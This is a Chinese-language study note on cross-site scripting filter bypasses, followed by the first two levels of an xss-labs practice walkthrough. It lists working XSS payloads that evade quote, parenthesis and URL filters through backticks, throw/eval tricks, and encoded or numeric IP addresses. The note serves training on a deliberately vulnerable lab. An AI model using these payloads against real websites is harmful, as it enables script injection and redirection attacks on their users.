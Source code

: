 过滤双引号，单引号

```php+HTML
如果是html标签中，我们可以不用引号；如果是在js中，我们可以用反引号代替单双引号
<img src="x" onerror=alert(``xss``);>
使用编码绕过，具体看上面列举的例子
```

过滤括号

```php+HTML
当括号被过滤的时候可以使用throw来绕过
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

过滤url地址

```php+HTML
使用url编码
<img src="x" onerror=document.location=``http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/``>
使用IP
<img src="x" onerror=document.location=``http://2130706433/``>十进制
<img src="x" onerror=document.location=``http://0177.0.0.01/``>八进制
<img src="x" onerror=document.location=``http://0x7f.0x0.0x0.0x1/``>十六进制
<img src="x" onerror=document.location=``//www.baidu.com``>html标签中用//可以代替http://
使用\ (注意：在windows下\本身就有特殊用途，是一个path 的写法，所以\在Windows下是file协议，在linux下才会是当前域的协议)
使用中文逗号代替英文逗号
<img src="x" onerror="document.location=``http://www。baidu。com``">//会自动跳转到百度
```



# xss_labs

> 参考wp：
>
> * [xss-labs靶场实战全通关详细过程（xss靶场详解）_金 帛的博客-CSDN博客](https://blog.csdn.net/l2872253606/article/details/125638898)
> * [xss-labs 靶场详细攻略（附常用payload） - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/338123.html)

## level 1

payload

```
<script>alert(1)</script>
```

## level 2

payload

```
"> <script>alert(1)</script> <"
```
